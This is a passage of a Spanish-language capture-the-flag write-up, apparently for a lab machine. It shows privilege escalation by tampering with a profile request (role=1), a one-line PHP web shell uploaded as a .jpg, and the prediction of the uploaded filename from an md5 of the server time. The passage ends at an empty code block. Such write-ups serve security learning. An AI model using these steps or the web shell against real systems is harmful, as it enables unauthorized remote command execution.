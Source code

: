 Bien, ahora si que por burpsuite pasando la petición de carga del fichero profile_update.php hago click derecho --> change method --> añado de data:  
firstName=test&lastName=test&email=test&company=test&role=1  
--> Forward --> intercept its off --> vuelvo al navegador.  
Veré lo mismo que en curl, pero si ahora me voy a la página principal se ha añadido la sección "Admin panel", así que deduzco que ahora mismo soy el administrador de la web.

![AdminPanel]({{ 'assets/img/writeups/Timing/adminPanel.png' | relative_url }}){: .center-image }

Tiene pinta que puedo subir archivos. Como puedo leer código me aprovecho para conseguir este php:
```bash
> ./rce.sh avatar_uploader.php
```
No veo nada interesante. El que lo gestiona debe ser upload.php. Muestro la parte importante del código:
```php
<?php
include("admin_auth_check.php");

$upload_dir = "images/uploads/";

if (!file_exists($upload_dir)) {
    mkdir($upload_dir, 0777, true);
}

$file_hash = uniqid();

$file_name = md5('$file_hash' . time()) . '_' . basename($_FILES["fileToUpload"]["name"]);
$target_file = $upload_dir . $file_name;
``` 
Más abajo señala que debe acabar como .jpg. Como lo podemos llamar desde el LFI y este se llama dentro de un php puede que ese jpg también lo interprete como php a pesar de su extensión de imagen.

La función uniqid() hubiera sido buena idea si no estuviera entre comillas, ya que solo hará un md5 de la cadena $file_hash, en cuanto al time te saca el tiempo actual en formato epoch, podemos averiguarlo gracias a la respuestas de las cabezeras del burpsuite.

Creo un pwn.jpg para subirlo:
```
<?php system($_REQUEST['cmd']); ?>
```
Intercepto la petición en el "Upload Image". Lo mando al "repeater" --> intercept is off (no es necesario pero lo hago) --> Envíaremos y nos quedaremos con la cabecera del tiempo.

![ArchivoSubido]({{ 'assets/img/writeups/Timing/archivoSubido.png' | relative_url }}){: .center-image }

Ahora desde la terminal se puede calcular el epoch del tiempo.
```bash
> php -a
# Entraríamos al modo interactivo de php

php > $vartime = "Wed, 28 Jun 2023 15:07:34 GMT";
php > echo strtotime($vartime);
1687964854
# Y así se calcula el epoch de el tiempo actual de la subida

php > echo md5('$file_hash' . strtotime($vartime)) . '_pwn.jpg';
155ebe85f13f2d92fad1856279bcdeee_pwn.jpg
# Así se llamaría el archivo subido
```
```bash
> curl -s -X GET "http://10.10.11.135/images/uploads/155ebe85f13f2d92fad1856279bcdeee_pwn.jpg"
<?php system($_REQUEST['cmd']); ?>
```
El archivo está!!!!. Si intentar el rce desde este punto fallaría, mira;
```bash
```